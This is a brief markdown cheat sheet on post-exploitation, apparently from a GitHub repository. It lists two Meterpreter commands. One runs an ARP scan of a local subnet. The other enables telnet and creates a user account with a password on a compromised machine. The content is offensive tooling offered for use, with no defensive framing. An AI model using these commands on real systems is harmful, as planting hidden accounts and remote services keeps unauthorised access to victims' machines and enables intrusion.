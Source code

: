 	
# Post Explotation
	
## Meterpreter Commands

### Discover
```run arp_scanner -r 192.168.0.0/24```

### Enable telnet and create user

```run gettelnet -u user -p password```
